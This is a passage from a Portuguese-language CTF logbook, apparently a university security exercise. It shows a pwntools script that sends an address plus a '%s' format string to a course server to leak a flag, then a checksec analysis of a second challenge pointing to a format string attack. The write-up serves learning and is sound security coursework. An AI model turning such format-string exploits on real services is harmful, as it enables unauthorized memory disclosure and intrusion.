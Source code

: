 ```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

input_address = 0x804c060
address_bytes = input_address.to_bytes(4,byteorder='little')


p.recvuntil(b"got:")
p.sendline(address_bytes + b"%s")
p.interactive()
```

<p>
Executando o script, conseguimos obter a flag:
</p>

![Flag](uploads/logbook7P10.png)

## Desafio 2

>Análise do 'checksec'

![checksec](uploads/logbook7P11.png)

- No RELRO: Isto significa que a medidad de segurança RELRO não está ativa, o que permite que certas secções possam ser alteradas, mesmo que seja para apontar para uma localização de memória que não esteja protegida.

- Canary Found: Esta medida de segurança implica a presença de um "canário" (variável de controlo do fluxo) inserido na stack antes do endereço de retorno de uma função. Se essa variável for modificada, o programa será encerrado como uma medida de segurança contra tentativas de 'buffer overflow'.

- NX Enabled: Esta medida de segurança marca certas áreas de memória como não executáveis, o que impede que código malicioso seja executado a partir dessas áreas.

- No PIE: Considerado que o PIE está desativado, o endereço de memória das funções não é aleatório, o que facilita a exploração de vulnerabilidades.

- Tipos de ataques possíveis:
  - Format String Attack;
